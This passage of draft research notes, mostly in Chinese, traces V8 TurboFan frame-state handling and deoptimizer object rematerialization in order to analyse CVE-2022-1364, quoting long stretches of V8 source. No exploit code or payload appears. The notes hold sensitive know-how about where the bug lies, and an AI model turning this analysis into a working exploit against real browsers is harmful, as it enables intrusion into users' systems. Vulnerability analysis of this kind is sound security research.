  size_t initial_size = inputs->size();
  USE(initial_size);  // initial_size is only used for debug.

  if (descriptor->outer_state()) {
    entries += AddInputsToFrameStateDescriptor(
        descriptor->outer_state(), FrameState{state.outer_frame_state()}, g,
        deduplicator, inputs, kind, zone);
  }

  Node* parameters = state.parameters();
  Node* locals = state.locals();
  Node* stack = state.stack();
  Node* context = state.context();
  Node* function = state.function();

  DCHECK_EQ(descriptor->parameters_count(),
            StateValuesAccess(parameters).size());
  DCHECK_EQ(descriptor->locals_count(), StateValuesAccess(locals).size());
  DCHECK_EQ(descriptor->stack_count(), StateValuesAccess(stack).size());

  StateValueList* values_descriptor = descriptor->GetStateValueDescriptors();

  DCHECK_EQ(values_descriptor->size(), 0u);
  values_descriptor->ReserveSize(descriptor->GetSize());

  DCHECK_NOT_NULL(function);
  entries += AddOperandToStateValueDescriptor(
      values_descriptor, inputs, g, deduplicator, function,
      MachineType::AnyTagged(), FrameStateInputKind::kStackSlot, zone);

  entries += AddInputsToFrameStateDescriptor(
      values_descriptor, inputs, g, deduplicator, parameters, kind, zone);

  if (descriptor->HasContext()) {
    DCHECK_NOT_NULL(context);
    entries += AddOperandToStateValueDescriptor(
        values_descriptor, inputs, g, deduplicator, context,
        MachineType::AnyTagged(), FrameStateInputKind::kStackSlot, zone);
  }

  entries += AddInputsToFrameStateDescriptor(values_descriptor, inputs, g,
                                             deduplicator, locals, kind, zone);
  entries += AddInputsToFrameStateDescriptor(values_descriptor, inputs, g,
                                             deduplicator, stack, kind, zone);
  DCHECK_EQ(initial_size + entries, inputs->size());
  return entries;
}

size_t InstructionSelector::AddInputsToFrameStateDescriptor(
    StateValueList* values, InstructionOperandVector* inputs,
    OperandGenerator* g, StateObjectDeduplicator* deduplicator, Node* node,
    FrameStateInputKind kind, Zone* zone) {
  // StateValues are often shared across different nodes, and processing them is
  // expensive, so cache the result of processing a StateValue so that we can
  // quickly copy the result if we see it again.
  FrameStateInput key(node, kind);
  auto cache_entry = state_values_cache_.find(key);
  if (cache_entry != state_values_cache_.end()) {
    // Entry found in cache, emit cached version.
    return cache_entry->second->Emit(inputs, values);
  } else {
    // Not found in cache, generate and then store in cache if possible.
    size_t entries = 0;
    CachedStateValuesBuilder cache_builder(values, inputs, deduplicator);
    StateValuesAccess::iterator it = StateValuesAccess(node).begin();
    // Take advantage of sparse nature of StateValuesAccess to skip over
    // multiple empty nodes at once pushing repeated OptimizedOuts all in one
    // go.
    while (!it.done()) {
      values->PushOptimizedOut(it.AdvanceTillNotEmpty());
      if (it.done()) break;
      StateValuesAccess::TypedNode input_node = *it;
      entries += AddOperandToStateValueDescriptor(values, inputs, g,
                                                  deduplicator, input_node.node,
                                                  input_node.type, kind, zone);
      ++it;
    }
    if (cache_builder.CanCache()) {
      // Use this->zone() to build the cache entry in the instruction selector's
      // zone rather than the more long-lived instruction zone.
      state_values_cache_.emplace(key, cache_builder.Build(this->zone()));
    }
    return entries;
  }
}
```

可以看到追溯到了 FrameState 节点，VisitiDeoptimize 函数把 FrameStatme 节点中的信息，分成了 Descriptor 和 Operands 两部分。

这样 receiver 的信息就从 FrameState 传递到了编译后生成的代码中，最终在 `OptimizedFrame::Summarize` 函数中读取出来，用来重新创建 Receiver。

```CPP
void OptimizedFrame::Summarize(std::vector<FrameSummary>* frames) const {
  DCHECK(frames->empty());
  DCHECK(is_optimized());

  // Delegate to JS frame in absence of turbofan deoptimization.
  // TODO(turbofan): Revisit once we support deoptimization across the board.
  Code code = LookupCode();
  if (code.kind() == CodeKind::BUILTIN) {
    return JavaScriptFrame::Summarize(frames);
  }

  int deopt_index = SafepointEntry::kNoDeoptIndex;
  DeoptimizationData const data = GetDeoptimizationData(&deopt_index);
  if (deopt_index == SafepointEntry::kNoDeoptIndex) {
    CHECK(data.is_null());
    FATAL("Missing deoptimization information for OptimizedFrame::Summarize.");
  }

  // Prepare iteration over translation. Note that the below iteration might
  // materialize objects without storing them back to the Isolate, this will
  // lead to objects being re-materialized again for each summary.
  TranslatedState translated(this);
  translated.Prepare(fp());

  // We create the summary in reverse order because the frames
  // in the deoptimization translation are ordered bottom-to-top.
  bool is_constructor = IsConstructor();
  for (auto it = translated.begin(); it != translated.end(); it++) {
    if (it->kind() == TranslatedFrame::kUnoptimizedFunction ||
        it->kind() == TranslatedFrame::kJavaScriptBuiltinContinuation ||
        it->kind() ==
            TranslatedFrame::kJavaScriptBuiltinContinuationWithCatch) {
      Handle<SharedFunctionInfo> shared_info = it->shared_info();

      // The translation commands are ordered and the function is always
      // at the first position, and the receiver is next.
      TranslatedFrame::iterator translated_values = it->begin();

      // Get or materialize the correct function in the optimized frame.
      Handle<JSFunction> function =
          Handle<JSFunction>::cast(translated_values->GetValue());
      translated_values++;

      // Get or materialize the correct receiver in the optimized frame.
      Handle<Object> receiver = translated_values->GetValue(); // << 这里读取 receier
      translated_values++;

      // Determine the underlying code object and the position within it from
      // the translation corresponding to the frame type in question.
      Handle<AbstractCode> abstract_code;
      unsigned code_offset;
      if (it->kind() == TranslatedFrame::kJavaScriptBuiltinContinuation ||
          it->kind() ==
              TranslatedFrame::kJavaScriptBuiltinContinuationWithCatch) {
        code_offset = 0;
        abstract_code = ToAbstractCode(
            isolate()->builtins()->code_handle(
                Builtins::GetBuiltinFromBytecodeOffset(it->bytecode_offset())),
            isolate());
      } else {
        DCHECK_EQ(it->kind(), TranslatedFrame::kUnoptimizedFunction);
        code_offset = it->bytecode_offset().ToInt();
        abstract_code =
            handle(shared_info->abstract_code(isolate()), isolate());
      }

      // Append full summary of the encountered JS frame.
      Handle<FixedArray> params = GetParameters();
      FrameSummary::JavaScriptFrameSummary summary(
          isolate(), *receiver, *function, *abstract_code, code_offset,
          is_constructor, *params);
      frames->push_back(summary);
      is_constructor = false;
    } else if (it->kind() == TranslatedFrame::kConstructStub) {
      // The next encountered JS frame will be marked as a constructor call.
      DCHECK(!is_constructor);
      is_constructor = true;
    }
  }
}
```


```CPP
Handle<Object> TranslatedValue::GetValue() {
  Handle<Object> value(GetRawValue(), isolate());
  if (materialization_state() == kFinished) return value;

  if (value->IsSmi()) {
    // Even though stored as a Smi, this number might instead be needed as a
    // HeapNumber when materializing a JSObject with a field of HeapObject
    // representation. Since we don't have this information available here, we
    // just always allocate a HeapNumber and later extract the Smi again if we
    // don't need a HeapObject.
    set_initialized_storage(
        isolate()->factory()->NewHeapNumber(value->Number()));
    return value;
  }

  if (*value != ReadOnlyRoots(isolate()).arguments_marker()) {
    set_initialized_storage(Handle<HeapObject>::cast(value));
    return storage_;
  }

  // Otherwise we have to materialize.

  if (kind() == TranslatedValue::kCapturedObject ||
      kind() == TranslatedValue::kDuplicatedObject) {
    // We need to materialize the object (or possibly even object graphs).
    // To make the object verifier happy, we materialize in two steps.

    // 1. Allocate storage for reachable objects. This makes sure that for
    //    each object we have allocated space on heap. The space will be
    //    a byte array that will be later initialized, or a fully
    //    initialized object if it is safe to allocate one that will
    //    pass the verifier.
    container_->EnsureObjectAllocatedAt(this);

    // Finish any sweeping so that it becomes safe to overwrite the ByteArray
    // headers.
    // TODO(hpayer): Find a cleaner way to support a group of
    // non-fully-initialized objects.
    isolate()->heap()->mark_compact_collector()->EnsureSweepingCompleted();

    // 2. Initialize the objects. If we have allocated only byte arrays
    //    for some objects, we now overwrite the byte arrays with the
    //    correct object fields. Note that this phase does not allocate
    //    any new objects, so it does not trigger the object verifier.
    return container_->InitializeObjectAt(this);
  }

  double number = 0;
  Handle<HeapObject> heap_object;
  switch (kind()) {
    case TranslatedValue::kInt32:
      number = int32_value();
      heap_object = isolate()->factory()->NewHeapNumber(number);
      break;
    case TranslatedValue::kInt64:
      number = int64_value();
      heap_object = isolate()->factory()->NewHeapNumber(number);
      break;
    case TranslatedValue::kInt64ToBigInt:
      heap_object = BigInt::FromInt64(isolate(), int64_value());
      break;
    case TranslatedValue::kUInt32:
      number = uint32_value();
      heap_object = isolate()->factory()->NewHeapNumber(number);
      break;
    case TranslatedValue::kFloat:
      number = float_value().get_scalar();
      heap_object = isolate()->factory()->NewHeapNumber(number);
      break;
    case TranslatedValue::kDouble:
      number = double_value().get_scalar();
      heap_object = isolate()->factory()->NewHeapNumber(number);
      break;
    default:
      UNREACHABLE();
  }
  DCHECK(!IsSmiDouble(number) || kind() == TranslatedValue::kInt64ToBigInt);
  set_initialized_storage(heap_object);
  return storage_;
}
```


```CPP
// We can't intermix stack decoding and allocations because the deoptimization
// infrastracture is not GC safe.
// Thus we build a temporary structure in malloced space.
// The TranslatedValue objects created correspond to the static translation
// instructions from the TranslationArrayIterator, except for
// TranslationOpcode::ARGUMENTS_ELEMENTS, where the number and values of the
// FixedArray elements depend on dynamic information from the optimized frame.
// Returns the number of expected nested translations from the
// TranslationArrayIterator.
int TranslatedState::CreateNextTranslatedValue(
    int frame_index, TranslationArrayIterator* iterator,
    DeoptimizationLiteralArray literal_array, Address fp,
    RegisterValues* registers, FILE* trace_file) {
  disasm::NameConverter converter;

  TranslatedFrame& frame = frames_[frame_index];
  int value_index = static_cast<int>(frame.values_.size());

  TranslationOpcode opcode = TranslationOpcodeFromInt(iterator->Next());
  switch (opcode) {
    case TranslationOpcode::BEGIN:
    case TranslationOpcode::INTERPRETED_FRAME:
    case TranslationOpcode::ARGUMENTS_ADAPTOR_FRAME:
    case TranslationOpcode::CONSTRUCT_STUB_FRAME:
    case TranslationOpcode::JAVA_SCRIPT_BUILTIN_CONTINUATION_FRAME:
    case TranslationOpcode::JAVA_SCRIPT_BUILTIN_CONTINUATION_WITH_CATCH_FRAME:
    case TranslationOpcode::BUILTIN_CONTINUATION_FRAME:
#if V8_ENABLE_WEBASSEMBLY
    case TranslationOpcode::JS_TO_WASM_BUILTIN_CONTINUATION_FRAME:
#endif  // V8_ENABLE_WEBASSEMBLY
    case TranslationOpcode::UPDATE_FEEDBACK:
      // Peeled off before getting here.
      break;

    case TranslationOpcode::DUPLICATED_OBJECT: {
      int object_id = iterator->Next();
      if (trace_file != nullptr) {
        PrintF(trace_file, "duplicated object #%d", object_id);
      }
      object_positions_.push_back(object_positions_[object_id]);
      TranslatedValue translated_value =
          TranslatedValue::NewDuplicateObject(this, object_id);
      frame.Add(translated_value);
      return translated_value.GetChildrenCount();
    }

    case TranslationOpcode::ARGUMENTS_ELEMENTS: {
      CreateArgumentsType arguments_type =
          static_cast<CreateArgumentsType>(iterator->Next());
      CreateArgumentsElementsTranslatedValues(frame_index, fp, arguments_type,
                                              trace_file);
      return 0;
    }

    case TranslationOpcode::ARGUMENTS_LENGTH: {
      if (trace_file != nullptr) {
        PrintF(trace_file, "arguments length field (length = %d)",
               actual_argument_count_);
      }
      frame.Add(TranslatedValue::NewInt32(this, actual_argument_count_));
      return 0;
    }

    case TranslationOpcode::CAPTURED_OBJECT: {
      int field_count = iterator->Next();
      int object_index = static_cast<int>(object_positions_.size());
      if (trace_file != nullptr) {
        PrintF(trace_file, "captured object #%d (length = %d)", object_index,
               field_count);
      }
      object_positions_.push_back({frame_index, value_index});
      TranslatedValue translated_value =
          TranslatedValue::NewDeferredObject(this, field_count, object_index);
      frame.Add(translated_value);
      return translated_value.GetChildrenCount();
    }

    case TranslationOpcode::REGISTER: {
      int input_reg = iterator->Next();
      if (registers == nullptr) {
        TranslatedValue translated_value = TranslatedValue::NewInvalid(this);
        frame.Add(translated_value);
        return translated_value.GetChildrenCount();
      }
      intptr_t value = registers->GetRegister(input_reg);
      Address uncompressed_value = DecompressIfNeeded(value);
      if (trace_file != nullptr) {
        PrintF(trace_file, V8PRIxPTR_FMT " ; %s ", uncompressed_value,
               converter.NameOfCPURegister(input_reg));
        Object(uncompressed_value).ShortPrint(trace_file);
      }
      TranslatedValue translated_value =
          TranslatedValue::NewTagged(this, Object(uncompressed_value));
      frame.Add(translated_value);
      return translated_value.GetChildrenCount();
    }

    case TranslationOpcode::INT32_REGISTER: {
      int input_reg = iterator->Next();
      if (registers == nullptr) {
        TranslatedValue translated_value = TranslatedValue::NewInvalid(this);
        frame.Add(translated_value);
        return translated_value.GetChildrenCount();
      }
      intptr_t value = registers->GetRegister(input_reg);
      if (trace_file != nullptr) {
        PrintF(trace_file, "%" V8PRIdPTR " ; %s (int32)", value,
               converter.NameOfCPURegister(input_reg));
      }
      TranslatedValue translated_value =
          TranslatedValue::NewInt32(this, static_cast<int32_t>(value));
      frame.Add(translated_value);
      return translated_value.GetChildrenCount();
    }

    case TranslationOpcode::INT64_REGISTER: {
      int input_reg = iterator->Next();
      if (registers == nullptr) {
        TranslatedValue translated_value = TranslatedValue::NewInvalid(this);
        frame.Add(translated_value);
        return translated_value.GetChildrenCount();
      }
      intptr_t value = registers->GetRegister(input_reg);
      if (trace_file != nullptr) {
        PrintF(trace_file, "%" V8PRIdPTR " ; %s (int64)", value,
               converter.NameOfCPURegister(input_reg));
      }
      TranslatedValue translated_value =
          TranslatedValue::NewInt64(this, static_cast<int64_t>(value));
      frame.Add(translated_value);
      return translated_value.GetChildrenCount();
    }

    case TranslationOpcode::UINT32_REGISTER: {
      int input_reg = iterator->Next();
      if (registers == nullptr) {
        TranslatedValue translated_value = TranslatedValue::NewInvalid(this);
        frame.Add(translated_value);
        return translated_value.GetChildrenCount();
      }
      intptr_t value = registers->GetRegister(input_reg);
      if (trace_file != nullptr) {
        PrintF(trace_file, "%" V8PRIuPTR " ; %s (uint32)", value,
               converter.NameOfCPURegister(input_reg));
      }
      TranslatedValue translated_value =
          TranslatedValue::NewUInt32(this, static_cast<uint32_t>(value));
      frame.Add(translated_value);
      return translated_value.GetChildrenCount();
    }

    case TranslationOpcode::BOOL_REGISTER: {
      int input_reg = iterator->Next();
      if (registers == nullptr) {
        TranslatedValue translated_value = TranslatedValue::NewInvalid(this);
        frame.Add(translated_value);
        return translated_value.GetChildrenCount();
      }
      intptr_t value = registers->GetRegister(input_reg);
      if (trace_file != nullptr) {
        PrintF(trace_file, "%" V8PRIdPTR " ; %s (bool)", value,
               converter.NameOfCPURegister(input_reg));
      }
      TranslatedValue translated_value =
          TranslatedValue::NewBool(this, static_cast<uint32_t>(value));
      frame.Add(translated_value);
      return translated_value.GetChildrenCount();
    }

    case TranslationOpcode::FLOAT_REGISTER: {
      int input_reg = iterator->Next();
      if (registers == nullptr) {
        TranslatedValue translated_value = TranslatedValue::NewInvalid(this);
        frame.Add(translated_value);
        return translated_value.GetChildrenCount();
      }
      Float32 value = registers->GetFloatRegister(input_reg);
      if (trace_file != nullptr) {
        PrintF(trace_file, "%e ; %s (float)", value.get_scalar(),
               RegisterName(FloatRegister::from_code(input_reg)));
      }
      TranslatedValue translated_value = TranslatedValue::NewFloat(this, value);
      frame.Add(translated_value);
      return translated_value.GetChildrenCount();
    }

    case TranslationOpcode::DOUBLE_REGISTER: {
      int input_reg = iterator->Next();
      if (registers == nullptr) {
        TranslatedValue translated_value = TranslatedValue::NewInvalid(this);
        frame.Add(translated_value);
        return translated_value.GetChildrenCount();
      }
      Float64 value = registers->GetDoubleRegister(input_reg);
      if (trace_file != nullptr) {
        PrintF(trace_file, "%e ; %s (double)", value.get_scalar(),
               RegisterName(DoubleRegister::from_code(input_reg)));
      }
      TranslatedValue translated_value =
          TranslatedValue::NewDouble(this, value);
      frame.Add(translated_value);
      return translated_value.GetChildrenCount();
    }

    case TranslationOpcode::STACK_SLOT: {
      int slot_offset =
          OptimizedFrame::StackSlotOffsetRelativeToFp(iterator->Next());
      intptr_t value = *(reinterpret_cast<intptr_t*>(fp + slot_offset));
      Address uncompressed_value = DecompressIfNeeded(value);
      if (trace_file != nullptr) {
        PrintF(trace_file, V8PRIxPTR_FMT " ;  [fp %c %3d]  ",
               uncompressed_value, slot_offset < 0 ? '-' : '+',
               std::abs(slot_offset));
        Object(uncompressed_value).ShortPrint(trace_file);
      }
      TranslatedValue translated_value =
          TranslatedValue::NewTagged(this, Object(uncompressed_value));
      frame.Add(translated_value);
      return translated_value.GetChildrenCount();
    }

    case TranslationOpcode::INT32_STACK_SLOT: {
      int slot_offset =
          OptimizedFrame::StackSlotOffsetRelativeToFp(iterator->Next());
      uint32_t value = GetUInt32Slot(fp, slot_offset);
      if (trace_file != nullptr) {
        PrintF(trace_file, "%d ; (int32) [fp %c %3d] ",
               static_cast<int32_t>(value), slot_offset < 0 ? '-' : '+',
               std::abs(slot_offset));
      }
      TranslatedValue translated_value = TranslatedValue::NewInt32(this, value);
      frame.Add(translated_value);
      return translated_value.GetChildrenCount();
    }

    case TranslationOpcode::INT64_STACK_SLOT: {
      int slot_offset =
          OptimizedFrame::StackSlotOffsetRelativeToFp(iterator->Next());
      uint64_t value = GetUInt64Slot(fp, slot_offset);
      if (trace_file != nullptr) {
        PrintF(trace_file, "%" V8PRIdPTR " ; (int64) [fp %c %3d] ",
               static_cast<intptr_t>(value), slot_offset < 0 ? '-' : '+',
               std::abs(slot_offset));
      }
      TranslatedValue translated_value = TranslatedValue::NewInt64(this, value);
      frame.Add(translated_value);
      return translated_value.GetChildrenCount();
    }

    case TranslationOpcode::UINT32_STACK_SLOT: {
      int slot_offset =
          OptimizedFrame::StackSlotOffsetRelativeToFp(iterator->Next());
      uint32_t value = GetUInt32Slot(fp, slot_offset);
      if (trace_file != nullptr) {
        PrintF(trace_file, "%u ; (uint32) [fp %c %3d] ", value,
               slot_offset < 0 ? '-' : '+', std::abs(slot_offset));
      }
      TranslatedValue translated_value =
          TranslatedValue::NewUInt32(this, value);
      frame.Add(translated_value);
      return translated_value.GetChildrenCount();
    }

    case TranslationOpcode::BOOL_STACK_SLOT: {
      int slot_offset =
          OptimizedFrame::StackSlotOffsetRelativeToFp(iterator->Next());
      uint32_t value = GetUInt32Slot(fp, slot_offset);
      if (trace_file != nullptr) {
        PrintF(trace_file, "%u ; (bool) [fp %c %3d] ", value,
               slot_offset < 0 ? '-' : '+', std::abs(slot_offset));
      }
      TranslatedValue translated_value = TranslatedValue::NewBool(this, value);
      frame.Add(translated_value);
      return translated_value.GetChildrenCount();
    }

    case TranslationOpcode::FLOAT_STACK_SLOT: {
      int slot_offset =
          OptimizedFrame::StackSlotOffsetRelativeToFp(iterator->Next());
      Float32 value = GetFloatSlot(fp, slot_offset);
      if (trace_file != nullptr) {
        PrintF(trace_file, "%e ; (float) [fp %c %3d] ", value.get_scalar(),
               slot_offset < 0 ? '-' : '+', std::abs(slot_offset));
      }
      TranslatedValue translated_value = TranslatedValue::NewFloat(this, value);
      frame.Add(translated_value);
      return translated_value.GetChildrenCount();
    }

    case TranslationOpcode::DOUBLE_STACK_SLOT: {
      int slot_offset =
          OptimizedFrame::StackSlotOffsetRelativeToFp(iterator->Next());
      Float64 value = GetDoubleSlot(fp, slot_offset);
      if (trace_file != nullptr) {
        PrintF(trace_file, "%e ; (double) [fp %c %d] ", value.get_scalar(),
               slot_offset < 0 ? '-' : '+', std::abs(slot_offset));
      }
      TranslatedValue translated_value =
          TranslatedValue::NewDouble(this, value);
      frame.Add(translated_value);
      return translated_value.GetChildrenCount();
    }

    case TranslationOpcode::LITERAL: {
      int literal_index = iterator->Next();
      Object value = literal_array.get(literal_index);
      if (trace_file != nullptr) {
        PrintF(trace_file, V8PRIxPTR_FMT " ; (literal %2d) ", value.ptr(),
               literal_index);
        value.ShortPrint(trace_file);
      }

      TranslatedValue translated_value =
          TranslatedValue::NewTagged(this, value);
      frame.Add(translated_value);
      return translated_value.GetChildrenCount();
    }
  }

  FATAL("We should never get here - unexpected deopt info.");
}
```





StateValues

bitmask_

Environment::Checkpoint()


```CPP
Node* BytecodeGraphBuilder::Environment::Checkpoint(
    BytecodeOffset bailout_id, OutputFrameStateCombine combine,
    const BytecodeLivenessState* liveness) {
  if (parameter_count() == register_count()) {
    // Re-use the state-value cache if the number of local registers happens
    // to match the parameter count.
    parameters_state_values_ =
        GetStateValuesFromCache(&values()->at(0), parameter_count(), nullptr);
  } else {
    UpdateStateValues(&parameters_state_values_, &values()->at(0),
                      parameter_count());
  }

  Node* registers_state_values = GetStateValuesFromCache(
      &values()->at(register_base()), register_count(), liveness);

  bool accumulator_is_live = !liveness || liveness->AccumulatorIsLive();
  Node* accumulator_state_value =
      accumulator_is_live && combine != OutputFrameStateCombine::PokeAt(0)
          ? values()->at(accumulator_base())
          : builder()->jsgraph()->OptimizedOutConstant();

  const Operator* op = common()->FrameState(
      bailout_id, combine, builder()->frame_state_function_info());
  Node* result = graph()->NewNode(
      op, parameters_state_values_, registers_state_values,
      accumulator_state_value, Context(), builder()->GetFunctionClosure(),
      builder()->graph()->start());

  return result;
}

void BytecodeGraphBuilder::Environment::UpdateStateValues(Node** state_values,
                                                          Node** values,
                                                          int count) {
  if (StateValuesRequireUpdate(state_values, values, count)) {
    const Operator* op = common()->StateValues(count, SparseInputMask::Dense());
    (*state_values) = graph()->NewNode(op, count, values);
  }
}

const Operator* CommonOperatorBuilder::StateValues(int arguments,
                                                   SparseInputMask bitmask) {
  if (bitmask.IsDense()) {
    switch (arguments) {
#define CACHED_STATE_VALUES(arguments) \
  case arguments:                      \
    return &cache_.kStateValues##arguments##Operator;
      CACHED_STATE_VALUES_LIST(CACHED_STATE_VALUES)
#undef CACHED_STATE_VALUES
      default:
        break;
    }
  }

#if DEBUG
  DCHECK(bitmask.IsDense() || bitmask.CountReal() == arguments);
#endif

  // Uncached.
  return zone()->New<Operator1<SparseInputMask>>(  // --
      IrOpcode::kStateValues, Operator::kPure,     // opcode
      "StateValues",                               // name
      arguments, 0, 0, 1, 0, 0,                    // counts
      bitmask);                                    // parameter
}

```

```CPP

// Issues:
// - Scopes - intimately tied to AST. Need to eval what is needed.
// - Need to resolve closure parameter treatment.
BytecodeGraphBuilder::Environment::Environment(
    BytecodeGraphBuilder* builder, int register_count, int parameter_count,
    interpreter::Register incoming_new_target_or_generator,
    Node* control_dependency)
    : builder_(builder),
      register_count_(register_count),
      parameter_count_(parameter_count),
      control_dependency_(control_dependency),
      effect_dependency_(control_dependency),
      values_(builder->local_zone()),
      parameters_state_values_(nullptr),
      generator_state_(nullptr) {
  // The layout of values_ is:
  //
  // [receiver] [parameters] [registers] [accumulator]
  //
  // parameter[0] is the receiver (this), parameters 1..N are the
  // parameters supplied to the method (arg0..argN-1). The accumulator
  // is stored separately.

  // Parameters including the receiver
  for (int i = 0; i < parameter_count; i++) {
    const char* debug_name = (i == 0) ? "%this" : nullptr;
    Node* parameter = builder->GetParameter(i, debug_name);
    values()->push_back(parameter);
  }

  // Registers
  register_base_ = static_cast<int>(values()->size());
  Node* undefined_constant = builder->jsgraph()->UndefinedConstant();
  values()->insert(values()->end(), register_count, undefined_constant);

  // Accumulator
  accumulator_base_ = static_cast<int>(values()->size());
  values()->push_back(undefined_constant);

  // Context
  int context_index = Linkage::GetJSCallContextParamIndex(parameter_count);
  context_ = builder->GetParameter(context_index, "%context");

  // Incoming new.target or generator register
  if (incoming_new_target_or_generator.is_valid()) {
    int new_target_index =
        Linkage::GetJSCallNewTargetParamIndex(parameter_count);
    Node* new_target_node =
        builder->GetParameter(new_target_index, "%new.target");

    int values_index = RegisterToValuesIndex(incoming_new_target_or_generator);
    values()->at(values_index) = new_target_node;
  }
}

Node* BytecodeGraphBuilder::GetParameter(int parameter_index,
                                         const char* debug_name_hint) {
  // We use negative indices for some parameters.
  DCHECK_LE(ParameterInfo::kMinIndex, parameter_index);
  const size_t index =
      static_cast<size_t>(parameter_index - ParameterInfo::kMinIndex);

  if (cached_parameters_.size() <= index) {
    cached_parameters_.resize(index + 1, nullptr);
  }

  if (cached_parameters_[index] == nullptr) {
    cached_parameters_[index] =
        NewNode(common()->Parameter(parameter_index, debug_name_hint),
                graph()->start());
  }

  return cached_parameters_[index];
}

```


TODO:
- inline 的时候对 param 有没有特殊处理
- 到底是什么地方的 FrameState 最后被使用了

js-inlining.cc:716, 创建了一个特殊的 FrameState，里面保存了调用函数的参数的信息
```cpp
  // Insert argument adaptor frame if required. The callees formal parameter
  // count have to match the number of arguments passed
  // to the call.
  int parameter_count =
      shared_info->internal_formal_parameter_count_without_receiver();
  DCHECK_EQ(parameter_count, start.FormalParameterCountWithoutReceiver());
  if (call.argument_count() != parameter_count) {
    frame_state = CreateArtificialFrameState(
        node, frame_state, call.argument_count(), BytecodeOffset::None(),
        FrameStateType::kArgumentsAdaptor, *shared_info);
  }

  return InlineCall(node, new_target, context, frame_state, start, end,
                    exception_target, uncaught_subcalls, call.argument_count());
}
```


Pc() -> SafePointTable -> SafePointEntry -> DeoptIndex -> DeoptData -> Translate -> FrameSummary


---
调试环境
- F:\\chromium_exp\\chromium_exp\\CVE-2022-1364\\poc
- F:\\v8\\v8\\
- todo: tools to visualize tq structure


- kFlags_deoptimize means? DeoptmizeIf/DeoptmizeUnless => OpcodeXxxCmp/Test |= kFlags_deoptimize


---
了解了这些信息后，我们再从错误发生的点开始，往前回溯整个流程。

对象被错误的实例化，发生在 `translate-state.cc:TranslatedValue::GetValue()` 函数中，正在处理的当前对象类型为 `TranslateValue::kDuplicatedObject`，代表栈的此位置上存放的是一个栈中其他地方已经存在的对象，所以 translationArray 中只存放了对象的 id, 这个 id 指向了另一个栈上的 `TranslateValue::kCapturedObject` 对象所在的位置，之后程序调用 `TranslatedState::EnsureObjectAllocatedAt` 函数来恢复这个 `kCapturedObject`。

```

```


`kDuplicatedObject` 和 `kCapturedObject` 的类型，都是在 instruction-selector


`kCapturedObject` 和 `kDuplicatedObject` 来自代码生成阶段执行的 `CodeGenerator::TranlateStateValueDescriptor` 函数

```cpp
void CodeGenerator::TranslateStateValueDescriptor(
    StateValueDescriptor* desc, StateValueList* nested,
    InstructionOperandIterator* iter) {
  if (desc->IsNested()) {
    // 这里写入 kCapturedObject
    translations_.BeginCapturedObject(static_cast<int>(nested->size()));
    for (auto field : *nested) {
      TranslateStateValueDescriptor(field.desc, field.nested, iter);
    }
  } else if (desc->IsArgumentsElements()) {
    translations_.ArgumentsElements(desc->arguments_type());
  } else if (desc->IsArgumentsLength()) {
    translations_.ArgumentsLength();
  } else if (desc->IsDuplicate()) {
    // 这里写入 kDuplicateObejct
    translations_.DuplicateObject(static_cast<int>(desc->id()));
  } else if (desc->IsPlain()) {
    InstructionOperand* op = iter->Advance();
    AddTranslationForOperand(iter->instruction(), op, desc->type());
  } else {
    DCHECK(desc->IsOptimizedOut());
      if (optimized_out_literal_id_ == -1) {
        optimized_out_literal_id_ = DefineDeoptimizationLiteral(
            DeoptimizationLiteral(isolate()->factory()->optimized_out()));
      }
      translations_.StoreLiteral(optimized_out_literal_id_);
  }
}

void TranslationArrayBuilder::BeginCapturedObject(int length) {
  auto opcode = TranslationOpcode::CAPTURED_OBJECT;
  Add(opcode);
  Add(length);
  DCHECK_EQ(TranslationOpcodeOperandCount(opcode), 1);
}

void TranslationArrayBuilder::DuplicateObject(int object_index) {
  auto opcode = TranslationOpcode::DUPLICATED_OBJECT;
  Add(opcode);
  Add(object_index);
  DCHECK_EQ(TranslationOpcodeOperandCount(opcode), 1);
}

```

这个函数从 StateValueDescriptor 和 InstructionOperand 中提取处相应的信息，写入到 translateArray 中。而前面着两个源信息是来自于指令选择阶段对 DeoptimizeUnless/DeoptimizeIf/Call 等节点的处理过程中, 这个处理流程会执行到 `InstructionSelector::AppendDeoptimizeArguments`, 把与目标关联的 FrameState 节点存储的信息转换成 Descriptor 和 InstructionOperand。

例如处理 Call 节点时，有如下调用栈：

```cpp
InstructionSelector::AddOperandToStateValueDescriptor(v8::internal::compiler::StateValueList *)
InstructionSelector::AddInputsToFrameStateDescriptor(v8::internal::compiler::StateValueList *)
InstructionSelector::AddInputsToFrameStateDescriptor(v8::internal::compiler::FrameStateDescriptor *)
InstructionSelector::InitializeCallBuffer(v8::internal::compiler::Node *)
InstructionSelector::VisitCall(v8::internal::compiler::Node *)
```

```cpp
// Returns the number of instruction operands added to inputs.
size_t InstructionSelector::AddOperandToStateValueDescriptor(
    StateValueList* values, InstructionOperandVector* inputs,
    OperandGenerator* g, StateObjectDeduplicator* deduplicator, Node* input,
    MachineType type, FrameStateInputKind kind, Zone* zone) {
  DCHECK_NOT_NULL(input);
  switch (input->opcode()) {
    ...
    case IrOpcode::kTypedObjectState:
    case IrOpcode::kObjectId: {
      size_t id = deduplicator->GetObjectId(input);
      if (id == StateObjectDeduplicator::kNotDuplicated) {
        // 信息从 kTypedObjectState 节点传递到 values(StateDescriptor) 和 input(InstructionOperand)
        DCHECK_EQ(IrOpcode::kTypedObjectState, input->opcode());
        size_t entries = 0;
        id = deduplicator->InsertObject(input);
        StateValueList* nested = values->PushRecursiveField(zone, id);
        int const input_count = input->op()->ValueInputCount();
        ZoneVector<MachineType> const* types = MachineTypesOf(input->op());
        for (int i = 0; i < input_count; ++i) {
          entries += AddOperandToStateValueDescriptor(
              nested, inputs, g, deduplicator, input->InputAt(i), types->at(i),
              kind, zone);
        }
        return entries;
      } else {
        // 这里与 kDuplicatedObject 相关
        // Deoptimizer counts duplicate objects for the running id, so we have
        // to push the input again.
        deduplicator->InsertObject(input);
        values->PushDuplicate(id);
        return 0;
      }
    }
    ...
  }
}

StateValueList* PushRecursiveField(Zone* zone, size_t id) {
	fields_.push_back(StateValueDescriptor::Recursive(id));
	StateValueList* nested = zone->New<StateValueList>(zone);
	nested_.push_back(nested);
	return nested;
}

static StateValueDescriptor Recursive(size_t id) {
	StateValueDescriptor descr(StateValueKind::kNested,
							   MachineType::AnyTagged());
	descr.id_ = id;
	return descr;
}
```

当 input 节点类型为 `kTypedObjectState` 时, 先向 values 中存入的描述符 `kNested`, 之后将节点的 input 依次存入 values 和 inputs 中。结合上面的的堆栈恢复代码，可以知道这里会存储对象的 Map, property, elements 等域。

input 来自 FrameState 节点中存储的参数信息

```cpp
size_t InstructionSelector::AddInputsToFrameStateDescriptor(
    StateValueList* values, InstructionOperandVector* inputs,
